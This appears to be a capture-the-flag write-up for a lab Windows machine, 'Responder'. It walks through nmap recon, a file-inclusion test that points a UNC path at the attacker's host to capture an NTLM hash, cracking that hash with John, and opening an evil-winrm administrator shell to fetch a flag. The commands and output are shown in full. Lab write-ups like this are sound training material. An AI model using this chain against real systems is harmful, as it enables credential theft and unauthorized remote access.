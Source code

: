# Responder

![](assets/ZiKbCRVNSAFd_5I6wUcsRn3NaWopaWT76INLM7GI4Lo=.png)

# Initial Recon

**Box IP: &#x20;**&#x31;0.129.187.14

#### Ping

```shellscript
$ ping 10.129.187.14
PING 10.129.187.14 (10.129.187.14) 56(84) bytes of data.
64 bytes from 10.129.187.14: icmp_seq=1 ttl=127 time=28.1 ms
64 bytes from 10.129.187.14: icmp_seq=2 ttl=127 time=80.6 ms
64 bytes from 10.129.187.14: icmp_seq=3 ttl=127 time=29.1 ms
```

No firewall blocking pings, TTL makes me think maybe Windows?

#### NMAP

```shellscript
Nmap scan report for 10.129.187.14
Host is up, received echo-reply ttl 127 (0.028s latency).
Scanned at 2025-01-16 21:14:01 EST for 17s

PORT     STATE    SERVICE   REASON          VERSION
80/tcp   open     http      syn-ack ttl 127 Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1

5985/tcp open     http      syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

7680/tcp filtered pando-pub no-response

Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019 (97%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 10 1903 - 21H1 (97%), Windows Server 2019 (91%), Microsoft Windows 10 1803 (89%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=1/16%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6789BCFA%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=U)
SEQ(SP=107%GCD=1%ISR=104%TI=I%II=I%SS=S%TS=U)
OPS(O1=M53CNW8NNS%O2=M53CNW8NNS%O3=M53CNW8%O4=M53CNW8NNS%O5=M53CNW8NNS%O6=M53CNNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M53CNW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

```

Was correct on the windows looks like we have web and API ports open

# HTTP (80/TCP)

When we try to navigate to the ip on port 80 we get redirected to unika.htb, need to add this to our host file.

![](assets/vWXZXsg0Y0L4owyrZNbLZ5J0135NiBg9jVTKyXFbhkk=.png)



We will explore the webpage to see if there is anything interesting.

![](assets/o3L8cQQO2hOoGWUJrW2ZMoYOyRg6QpMj8SrOTysw49g=.png)



Looks like when you change the language of the website it does something interesting and loads another page, wonder if we can do directory transversal?

![](assets/6vsHnqbngIOhNZHNQ05w7LlF71MJpECp_PvkB9zyHfA=.png)



Wonder if we can get the machine to call back to our attacker box, lets test using\\\\\<attacker ip>\test.php

![](assets/F9zZmmVVeWrRa_uSWgDt1etHW3xN_5xy0He-eLZeEJw=.png)

That totally works,we can use responder and get the NTLM hash.

![](assets/U9MYUxrdoH1vn8GZwVqiK8mgGusUk4Fqul3FIhzcKBg=.png)



Now we can try to crack the password with John

```shellscript
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2 hash 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     

```



# WINRM (5985/TCP)

Now we have the creds we cracked we can try to use evil-winrm and see if we can login.

```
$ evil-winrm -u administrator -p badminton -i 10.129.185.40
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Downloads> cd ../..
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public


*Evil-WinRM* PS C:\Users> cd mike/Desktop
*Evil-WinRM* PS C:\Users\mike\Desktop> dir


    Directory: C:\Users\mike\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt


*Evil-WinRM* PS C:\Users\mike\Desktop> download flag.txt
                                        
Info: Downloading C:\Users\mike\Desktop\flag.txt to flag.txt                                       
Info: Download successful!
```

We got the flag!!!
